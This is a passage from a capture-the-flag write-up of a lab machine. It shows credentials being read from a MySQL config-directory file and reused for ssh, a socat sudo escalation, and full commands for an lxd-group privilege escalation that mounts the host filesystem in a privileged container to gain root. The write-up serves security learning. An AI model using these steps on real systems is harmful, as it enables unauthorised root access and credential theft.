 And there is a `/etc/mysql/conf.d/private.txt` file that contains credentials, tried it for ssh and it worked.

{% code overflow="wrap" lineNumbers="true" %}
```
bash-4.4$ cat /etc/mysql/conf.d/private.txt
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
```
{% endcode %}

#### Priv Esc from elyana to root

`sudo -l` - we can exploit the socat binary.

### Method 6

We could also exploit the `lxd` group. The "elyana" user is part of the `lxd` group.

Following the steps in this repo --> [https://github.com/saghul/lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder)

#### Steps to exploit:

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 1
# build the image on kali 1st.
./build-alpine

# 2
# Now import the .tar into the target machine.
python -m http.server 80
wget http://<ip>

# 3
# use any name for alias.
lxc image import ./alpine-v3.12-x86_64–20201225_1814.tar.gz —alias jin

# 4
# list all images.
lxc image list

# 5
# Now create ignite first , and after add ignite in “mydevice” with the path:/mnt/root after you can start ignite and execute it ! And we are ROOT!
lxc init jin ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```
{% endcode %}

Obviously the root flag is under / mnt / root / root, where we have mounted it.

Done.



